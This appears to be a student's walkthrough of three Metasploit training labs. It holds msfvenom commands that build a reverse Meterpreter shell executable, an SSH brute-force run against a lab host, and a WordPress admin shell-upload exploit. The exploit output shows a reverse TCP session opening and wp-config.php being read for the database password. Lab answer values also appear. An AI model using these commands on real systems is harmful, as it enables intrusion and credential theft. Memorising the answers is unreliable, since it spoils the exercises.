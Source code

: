 Lab 1:
Q: Which option would you give to -p if you wanted to create a Windows x64 stageless reverse shell TCP payload?
A: windows/x64/shell_reverse_tcp
Q:If you wanted to make sure your generated payload did not contain any null bytes, what option would you provide?
A: -b '\x00'
Q:Which encoder (Name) will use a single-byte XOR countdown encoder? 
A:x86/countdown
Q:Which of the following would correctly generate a reverse Meterpreter shell?
A:msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.21.1.1 lport=443 -f exe -o shell.exe
Q:Using the correct payload from the question above, generate this payload. What is the final payload size?
A:7168 bytes



Lab 2:
Tasks
    1. Start the PostgreSQL service and start the Metasploit console
    2. Initialise and connect to the msf database
    3. Import the scan data from /root/ScanData/*
    4. Search the database to answer the questions

Pre question commands:
>postgresql start
>Msfconsole
#inside Metasploit console
>Msfdb init
#already connected skipping
>Db_status
#connected to msf
>Db_import /root/ScanData/*
#imports lots of data


Q:How many hosts are recorded in the database?
>hosts
#shows a list of hosts there are 10
A:10

Q:How many hosts are running the HTTP service? 
>services
#shows all services. Counted 5. There is probably a better way to do this with grep, but database is small so this command works.
A:5

Q:Which host appears to be the DNS server? (Provide the IP address.)
A:172.17.0.9

Q:What is Jimmy’s FTP password?
> creds
#clearly gives jimmys password
A: batman

Q:Is there any loot? 
>loot
# i see nothing here so i think no
A:No


Lab 3:
#pre lab commands
> cd /usr/share/metasploit-framework/modules/auxiliary/

Q: Browse through the auxiliary modules directory in Kali. How many different protocols can you fuzz with Metasploit? (Look in the fuzzer directory.) 
> cd fuzzers/
# i see 8 directories with different protocol names
A: 8

Q: What is the name of the only scanner module for nfs? 
A: nfsmount

Q: Use the dir_scanner module to discover potentially interesting directories on the target web server. What is the token from the last directory found by Metasploit? 
>msfconsole

#https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/
>use auxiliary/scanner/http/dir_scanner
#ip was given in “network” tab
>set RHOSTS 10.102.3.0
>run
[*] Detecting error code
[*] Using code '404' as not found for 10.102.3.0
[+] Found http://10.102.3.0:80/Joomla/ 200 (10.102.3.0)
[+] Found http://10.102.3.0:80/SiteEdit/ 200 (10.102.3.0)
[+] Found http://10.102.3.0:80/WebBank/ 200 (10.102.3.0)
[+] Found http://10.102.3.0:80/jscss/ 200 (10.102.3.0)
[+] Found http://10.102.3.0:80/leet/ 200 (10.102.3.0)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
#copy the http addres of the last “found”. Paste it into firefox and it gives you a webpage with the token
A: a7420625e2ba860b0736c0be5a214adf





Q: Use the ssh_login module to brute force the SSH service for the target server. Use the root_userpass.txt wordlist. What is the password found? 

#https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/
>use auxiliary/scanner/ssh/ssh_login
>set RHOSTS 10.102.3.0
>set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
>set VERBOSE false
>run

A:rootpass

Q:What does RHOST stand for?
A: Remote Host
Q: What will the command 'show payloads' output?
A:Display all available payloads for the chosen exploit
Q:Which of the following commands will execute an exploit on Metasploit? 
A:Run
Q:Which exploit do you need to use for this lab?
A:wp_admin_shell_upload
Q:What is the value of DB_PASSWORD in /var/www/html/wp-config.php?
> msfconsole
> use /unix/webapp/wp_admin_shell_upload
> set httpclienttimeout 60
> set username admin 
> set password admin
> set RHOST 10.102.1.17
> run 
[*] Started reverse TCP handler on 10.102.1.193:4444
[*] Authenticating with WordPress using admin:admin...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/WOglOyuZyo/BqsAVuGOgS.php...
[*] Sending stage (38288 bytes) to 10.102.1.17
[*] Meterpreter session 1 opened (10.102.1.193:4444 -> 10.102.1.17:60216) at 2020-07-04 03:17:45 +0000
[+] Deleted BqsAVuGOgS.php
[+] Deleted WOglOyuZyo.php
[+] Deleted ../WOglOyuZyo

> cd ..
> cd /var/
> cd www/html
> cat wp-config.php
# after some reading you can see that DB_password is sqlpassword

A:sqlpassword
